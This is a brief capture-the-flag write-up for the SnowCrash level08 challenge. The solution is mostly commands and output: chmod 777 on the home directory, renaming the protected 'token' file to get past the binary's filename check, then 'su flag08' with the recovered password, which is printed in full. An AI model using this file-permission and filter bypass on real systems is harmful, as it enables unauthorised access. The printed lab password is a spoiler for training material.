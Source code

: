 # CTF Report — Level08 Token & Flag Retrieval (English)

---

## Overview

This report documents the exact, unmodified steps you performed to retrieve the token/password and use it to switch user and obtain the flag. All commands and outputs are preserved exactly as you provided.

---

## Steps (verbatim)

```bash
strings level08 
token geçenleri açmıyor 

level08@SnowCrash:~$ chmod 777 .
level08@SnowCrash:~$ cp token asd
cp: cannot open `token' for reading: Permission denied
level08@SnowCrash:~$ mv token asd
level08@SnowCrash:~$ ls
asd  level08
level08@SnowCrash:~$ ./level08 asd
quif5eloekouj29ke0vouxean

su flag08
password ---> quif5eloekouj29ke0vouxean
getflag 
```

---

## Observed token / password

```
quif5eloekouj29ke0vouxean
```

---

## Final action & result

* Used the token as the password for `su flag08`.
* Ran `getflag` as the `flag08` user (command shown but output not included in your snippet).
